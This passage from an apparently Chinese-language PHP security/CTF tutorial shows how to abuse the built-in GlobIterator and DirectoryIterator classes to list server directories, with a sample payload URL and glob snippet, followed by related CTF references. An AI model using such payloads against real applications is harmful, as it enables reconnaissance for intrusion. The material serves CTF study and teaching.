 ```php
```
## **4.8 利用内置类Iterator进行实列化读取目录**
```php
//GlobIterator 或者  DirectoryIterator
public GlobIterator::__construct ( string $pattern [, int $flags = FilesystemIterator::KEY_AS_PATHNAME | FilesystemIterator::CURRENT_AS_FILEINFO ] ) 第一个参数为要搜索的文件名，第二个参数为选择文件的哪个信息作为键名，这里我选择用 FilesystemIterator::CURRENT_AS_FILEINFO ，其对应的常量值为0，你可以在 这里 找到这些常量的值，所以最终搜索文件的 payload 如下：
http://localhost/CTF/index.php?name=GlobIterator&param=./*.php&param2=0
或者
$a=new DirectoryIterator("glob:///*");
```
**相关的CTF题**

* LCTF-2018 T4lk 1s ch34p,sh0w m3 the sh31l
* https://paper.seebug.org/680/
* http://www.k0rz3n.com/2018/11/19/LCTF%202018%20T4lk%201s%20ch34p,sh0w%20m3%20the%20sh31l%20%E8%AF%A6%E7%BB%86%E5%88%86%E6%9E%90/
# **5 参考文献**
【1】https://blog.spoock.com/2016/10/16/php-serialize-problem/<br>
【2】https://xz.aliyun.com/t/6057<br>
